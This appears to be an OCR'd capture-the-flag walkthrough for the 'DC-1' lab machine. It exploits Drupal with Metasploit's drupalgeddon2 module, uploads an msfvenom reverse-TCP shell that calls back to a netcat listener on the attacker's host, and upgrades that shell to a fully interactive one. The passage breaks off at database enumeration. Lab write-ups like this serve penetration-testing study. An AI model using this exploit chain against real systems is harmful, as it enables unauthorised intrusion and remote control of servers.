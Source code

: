     > > `search drupal`
    
    > > `use exploit/unix/webapp/drupal_drupalgeddon2`
    
    > > `show options`
    
    > > `set RHOSTS 192.168.100.4`
    
    > > `set TARGETURI /drupal/`
    
    > > `run`
    
    Got meterpreter shell
    
    Open the new terminal and generate one msfvenom payload
    
    $ `msfvenom —payload linux/x86/shell_reverse_tcp —platform linux LHOST=kali ip LPORT=1234 -f elf -o sh.elf`
    
    $ `nc -lvnp 1234`
    
    Now again go to meterpreter session
    
    meterpreter> `upload sh.elf`
    
    Upload completed
    
    Bow open shell session
    
    meterpretrr> `shell`
    
    `chmod +x sh.elf`
    
    Now execute this
    
    `./sh.elf`
    
    Now we got reverse shell in the netcat that listening
    
    Now terminate the meterpreter session, and go to netcat got reverse shell
    
    `python -c ‘import pty;pty.spawn(”/bin/bash”)’`
    
    got shell
    
    www-data@DC-1:/var/www$ `export TERM=xterm`
    
    now press ctrl Z
    
    now type this command in the same terminal
    
    $ `stty raw echo;fg;reset`
    
    Now enter ctrl C
    
    Now we got full interactive shell
    
    www-data@DC-1:/var/www$
    
    DB Enum
    
    www-data@DC-1:/var/www$ `ls`
    
    www-data@DC-1:/var/www$ `cd sites`
    